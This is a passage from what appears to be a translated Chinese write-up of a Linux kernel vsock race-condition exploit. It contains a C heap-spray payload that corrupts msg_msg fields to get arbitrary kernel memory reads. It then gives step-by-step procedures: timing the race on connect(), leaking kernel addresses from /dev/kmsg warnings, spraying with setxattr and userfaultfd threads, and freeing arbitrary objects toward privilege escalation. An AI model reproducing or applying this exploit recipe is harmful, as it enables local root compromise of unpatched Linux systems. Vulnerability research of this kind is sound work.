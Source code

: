 </div>
<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
從洩露的內核地址釋放一個對象 執行堆噴，用受控數據覆蓋該對象 使用損壞的對象進行權限升級 內核實現的System V消息有限制最大值DATALEN_MSG，即PAGE_SIZE減去sizeof(struct msg_msg))。如果你發送了更大的消息，剩餘的消息會被保存在消息段的列表中。 msg_msg中包含struct msg_msgseg \*next用於指向第一個段，size_t m_ts用於存儲大小。當進行覆蓋操作時，就可以把受控的值放在msg_msg.m_ts和msg_msg.next中：

</div>
![](T01a51dfe7a996e854c.png "T01a51dfe7a996e854c.png")

Payload:

        #define PAYLOAD_SZ 40
        void adapt_xattr_vs_sysv_msg_spray(unsigned long kaddr)
        {
            struct msg_msg *msg_ptr;

            xattr_addr = spray_data + PAGE_SIZE * 4 - PAYLOAD_SZ;

            /* Don't touch the second part to avoid breaking page fault delivery */
            memset(spray_data, 0xa5, PAGE_SIZE * 4);

            printf("[+] adapt the msg_msg spraying payload:\n");
            msg_ptr = (struct msg_msg *)xattr_addr;
            msg_ptr->m_type = 0x1337;
            msg_ptr->m_ts = ARB_READ_SZ;
            msg_ptr->next = (struct msg_msgseg *)kaddr; /* set the segment ptr for arbitrary read */
            printf("\tmsg_ptr %p\n\tm_type %lx at %p\n\tm_ts %zu at %p\n\tmsgseg next %p at %p\n",
                   msg_ptr,
                   msg_ptr->m_type, &(msg_ptr->m_type),
                   msg_ptr->m_ts, &(msg_ptr->m_ts),
                   msg_ptr->next, &(msg_ptr->next));
        }

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
但是如何使用msg_msg讀取內核數據呢？通過閱讀msgrcv()系統調用文檔，我找到了好解決方案，使用msgrcv()和MSG標誌：

</div>
    MSG_COPY (since Linux 3.8)
            Nondestructively fetch a copy of the message at the ordinal position  in  the  queue
            specified by msgtyp (messages are considered to be numbered starting at 0).

<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
這個標誌使內核將消息數據複製到用戶空間，不從消息隊列中刪除。如果內核有CONFIG_CHECKPOINT_RESTORE=y，則MSG是可用的，在Fedora Server適用。

</div>
<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
### 任意讀的步驟

</div>
<div lang="zh-Hant" dir="ltr" class="mw-content-ltr">
準備工作： 使用sched_getaffinity()和CPU_COUNT()計算可用的CPU數量（該漏洞至少需要兩個）; 打開/dev/kmsg進行解析; mmap()將spray_data內存區域配置userfaultfd()作為最後一部分; 啟動一個單獨的pthread來處理userfaultfd()事件; 啟動127個threads用於msg_msg上的setxattr()&userfaultfd()堆噴射，並將它們掛在thread_barrier上; 獲取原始msg_msg的內核地址: 在虛擬套接字上進行條件競爭; 在第二個connect()後，在忙循環中等待35微秒; 調用msgsnd()來建立一個單獨的消息隊列；在內存破壞後，msg_msg對像被放置在virtio_vsock_sock位置; 解析內核日誌，從內核警告（RCX寄存器）中保存msg_msg的內核地址; 同時，從RBX寄存器中保存vsock_sock的內核地址; 使用損壞的 msg_msg對原始msg_msg執行任意釋放: 使用原始 msg_msg地址的4個字節作為 SO_VM_SOCKETS_BUFFER_SIZE，用於實現內存破壞； 在虛擬套接字上進行條件競爭； 在第二個connect()之後馬上調用msgsnd()；msg_msg被放置在virtio_vsock_sock的位置，實現破壞； 現在被破壞的msg_msg的security指針存儲原始msg_msg的地址(來自步驟2)；
